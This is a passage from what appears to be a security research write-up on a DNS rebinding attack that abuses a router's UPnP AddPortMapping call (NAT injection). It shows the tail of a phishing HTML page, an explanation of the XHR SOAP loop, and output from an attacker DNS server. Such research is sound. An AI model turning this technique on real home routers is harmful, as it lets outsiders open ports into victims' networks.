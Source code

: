 ```
        });
```

```
    </script>
```

```
</head>
```

```
<body>
```

```
    <h1>DNS Rebinding attack against vulnerable router - AddPortMapping</h1>
```

```
</body>
```

```
</html>
```

  

The JavaScript code embedded in the HTML phishing page continuously performs the **NAT Injection** SOAP request via XHR, the attacker-controlled DNS server is hit multiple times and responds with the real IP address of the  _**127-0-0-1.192-168-1-1.attacker.mindedsecurity.com**_ domain, which in this case is **127.0.0.1** because the web server was runned locally. 

After a while, the DNS server returns the **192.168.1.1** IP address:

  

```
$ sudo python dns_server.py
```

```
0 127-0-0-1.192-168-1-1.attacker.mindedsecurity.com -> 127.0.0.1
```

```
1 127-0-0-1.192-168-1-1.attacker.mindedsecurity.com -> 127.0.0.1
```

```
2 127-0-0-1.192-168-1-1.attacker.mindedsecurity.com -> 127.0.0.1
```

```
3 127-0-0-1.192-168-1-1.attacker.mindedsecurity.com -> 127.0.0.1
```

```
4 127-0-0-1.192-168-1-1.attacker.mindedsecurity.com -> 127.0.0.1
```

```
5 127-0-0-1.192-168-1-1.attacker.mindedsecurity.com -> 127.0.0.1
```
